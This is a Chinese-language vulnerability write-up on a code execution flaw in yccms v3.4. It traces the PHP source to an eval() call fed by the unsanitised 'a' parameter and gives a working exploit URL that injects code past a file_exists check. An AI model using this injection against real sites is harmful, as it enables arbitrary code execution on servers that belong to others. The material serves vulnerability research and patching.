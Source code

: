 ```yaml
---
title: yccms v3.4代码执行漏洞
date: 2021-04-18 17:17:19
cover: https://i.loli.net/2021/04/18/U6I7rfGqCmDk52i.png
---
```


# yccms v3.4 代码执行漏洞

查看/admin/index.php文件，这是后台首页的源代码，我们来看看里面的逻辑

这个文件主要的功能是通过require包含了run.inc.php文件

```php
<?php
require str_replace('\\','/',substr(dirname(__FILE__),0,-6)).'/config/run.inc.php';
?>
```

接着看下run.inc.php文件

这个文件的主要的作用是自动加载类，这些类都在controller、model、public/class目录下

```php
<?php
//开启session
session_start();
//超时时间
@set_time_limit(0);
//设置编码
header('Content-Type:text/html;charset=utf-8');
//错误级别,报告警告之外的所有错误
error_reporting(E_ALL ^ E_NOTICE);
//设置时区
date_default_timezone_set('PRC'); 
//网站绝对根路径
define('ROOT_PATH',str_replace('\\','/',substr(dirname(__FILE__),0,-7))); 
//引入配置文件
require ROOT_PATH.'/config/config.inc.php';
//引入Smarty
require ROOT_PATH.'/public/smarty/Smarty.class.php';
//自动加载类
function __autoload($_className){
	if(substr($_className,-6)=='Action'){
		require ROOT_PATH.'/controller/'.ucfirst($_className).'.class.php';	
	}elseif(substr($_className, -5) == 'Model'){
		require ROOT_PATH.'/model/'.ucfirst($_className).'.class.php';
	}else{
		require ROOT_PATH.'/public/class/'.ucfirst($_className).'.class.php';
	}
}
//单入口
Factory::setAction()->run();
?>
```

在看到public/class/目录下的Factory.class.php类文件的时候，发现了一个代码执行的漏洞，该漏洞可以通过eval函数执行任意代码

```php
<?php
class Factory{
	static private $_obj=null;
	static public function setAction(){
    #匹配get请求的a参数
		$_a=self::getA();
		if (in_array($_a, array('admin', 'nav', 'article','backup','html','link','pic','search','system','xml','online'))) {
				if (!isset($_SESSION['admin'])) {
				header('Location:'.'?a=login');
			}
		}
		if (!file_exists(ROOT_PATH.'/controller/'.ucfirst($_a).'Action.class.php')) $_a = 'Login';
		eval('self::$_obj = new '.ucfirst($_a).'Action();');
		return self::$_obj;
	}
	
	static public function setModel() {
		$_a = self::getA();
		if (file_exists(ROOT_PATH.'/model/'.$_a.'Model.class.php')) eval('self::$_obj = new '.ucfirst($_a).'Model();');
		return self::$_obj;
	}
	static public function getA(){
		if(isset($_GET['a']) && !empty($_GET['a'])){
			return $_GET['a'];
		}
		return 'login';
	}
}

?>
```

我们主要看产生漏洞的核心代码，我们要利用这个漏洞，就要让eval函数执行我们的代码，也就是说要先通过第一句代码的if检查，通过了if检查，我们的代码执行就更近一步了

```php
if (!file_exists(ROOT_PATH.'/controller/'.ucfirst($_a).'Action.class.php')) $_a = 'Login';
		eval('self::$_obj = new '.ucfirst($_a).'Action();');
```

所以我们要解决两个问题：

1.file_exists逃逸

2.eval代码执行，并且插入我们的代码

下面我们来解决这两个问题

1.file_exists逃逸

这个file_exists会检查提供的文件路径是否存在，显然这里检查的是controller目录下的文件是否存在

我们可以看到controller目录下存在的一些文件，可以看到正好存在一个Action.class.php，如果a参数传递的是空，也是可以通过if检查的，那么如何传递个“空的”a参数呢并且还能执行代码呢？接着往下看

![yccms%20v3%204%20%E4%BB%A3%E7%A0%81%E6%89%A7%E8%A1%8C%E6%BC%8F%E6%B4%9E%2066dbd424c9b24c04a72fd07e38cfa606/Untitled.png](https://i.loli.net/2021/04/18/VZEQXkxBNFvCTMU.png)

file_exists函数本身存在一个bug，当接收的字符串中存在..//的时候会自动找到上一层目录，因此我们传递的a参数可以是这样的，在经过file_exists函数的时候会先执行到phpinfo();//，因为这里碰到个//，所以它会进入下一层目录，接着会碰到..//就会回到上一层目录，这样即执行了我们的代码，也相当于传了个“空的”参数，因为它去找了下一层目录，接着又往上一层目录去找，还是会找到Action.class.php

```php
phpinfo();//..//
```

我们进行个小测试，我的C盘下存在C://GameCS/Counter-Strike目录

![yccms%20v3%204%20%E4%BB%A3%E7%A0%81%E6%89%A7%E8%A1%8C%E6%BC%8F%E6%B4%9E%2066dbd424c9b24c04a72fd07e38cfa606/Untitled%201.png](https://i.loli.net/2021/04/18/Iv9zdRiFPsbDfkW.png)

通过执行下面的代码，返回的是1，这样不仅通过了检查，还执行了我们的代码phpinfo();

```php
<?php
echo file_exists('C://GameCS//phpinfo();//..//Counter-Strike');
?>
```

![yccms%20v3%204%20%E4%BB%A3%E7%A0%81%E6%89%A7%E8%A1%8C%E6%BC%8F%E6%B4%9E%2066dbd424c9b24c04a72fd07e38cfa606/Untitled%202.png](https://i.loli.net/2021/04/18/WOCfPDRura9Sy6m.png)

所以我们只要在a参数中传递下面的字符串就可以绕过if判断了，

```php
http://192.168.0.21/yccms_v3.4/admin/?a=phpinfo();//..//
```

2.eval执行我们的代码

光是绕过if判断还不够，我们看下eval函数执行时的操作，eval可以执行php代码，这里它进行了new操作，本意是想通过拼接，以动态的方式创建一个对象

```php
eval('self::$_obj = new '.ucfirst($_a).'Action();');
```

但是如果我们以上面的exp去打，显然就会变成下面这样，这样程序就会报错，因为不存在phpinfo()对象

```php
self::$_obj = new phpinfo();//..//
```

可以看到它会去public/class目录下去找phpinfo.class.php，这显示是不存在的

![yccms%20v3%204%20%E4%BB%A3%E7%A0%81%E6%89%A7%E8%A1%8C%E6%BC%8F%E6%B4%9E%2066dbd424c9b24c04a72fd07e38cfa606/Untitled%203.png](https://i.loli.net/2021/04/18/KSqj9awp7g4RmGN.png)

我们需要让它创建一个存在的对象，public/class目录下是存在DB.class.php文件的，因此我们最终的exp可以是这样

```php
http://192.168.0.21/yccms_v3.4/admin/?a=DB();phpinfo();//..//
```

![yccms%20v3%204%20%E4%BB%A3%E7%A0%81%E6%89%A7%E8%A1%8C%E6%BC%8F%E6%B4%9E%2066dbd424c9b24c04a72fd07e38cfa606/Untitled%204.png](https://i.loli.net/2021/04/18/WQBdGsqNfXUHLC3.png)